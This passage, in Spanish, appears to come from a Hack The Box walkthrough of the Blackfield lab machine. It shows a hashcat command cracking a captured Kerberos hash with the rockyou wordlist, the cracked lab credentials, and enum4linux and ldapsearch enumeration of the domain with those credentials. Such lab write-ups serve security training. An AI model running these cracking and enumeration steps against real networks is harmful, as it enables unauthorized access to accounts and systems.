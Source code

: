 ![](/assets/images/HTB/Blackfield-HackTheBox/hash.webp)

A continuación voy a craquearlo usando hascat

> `hashcat -m 18200 hashes.hash /usr/share/wordlists/rockyou.txt --force`

![](/assets/images/HTB/Blackfield-HackTheBox/hash-cracked.webp)

Listo, tenemos un usuario y una contraseña.

> `support:#00^BlackKnight`

Ahora que ya tengo credenciales vuelvo para atrás de nuevo para enumerar usuarios del Dominio pero a través de la herramienta enum4linux.

Encuentro varios usuarios nuevos.

![](/assets/images/HTB/Blackfield-HackTheBox/usuarios.webp)

Hay uno que me llama la atención, el usuario audit2020, ya que había uno de los recursos compartidos de SMB llamado forensic, al cual no tenía acceso pero igual ahora que tenemos este usuario nuevo podríamos obtener sus credenciales y conseguir acceso al recurso.

Además del usuario audit seguí enumerando a través de la herramienta ldap search y encontré el nombre del DC (Domain Controller)

```ldapsearch
ldapsearch -h 10.10.10.192 -b "DC=BLACKFIELD,DC=local" -D 'support@blackfield.local' -w '#00^BlackKnight' > ldapsearch

# DC01, Domain Controllers, BLACKFIELD.local
dn: CN=DC01,OU=Domain Controllers,DC=BLACKFIELD,DC=local
cn: DC01
distinguishedName: CN=DC01,OU=Domain Controllers,DC=BLACKFIELD,DC=local
name: DC01
sAMAccountName: DC01$
serverReferenceBL: CN=DC01,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=C
dNSHostName: DC01.BLACKFIELD.local
```
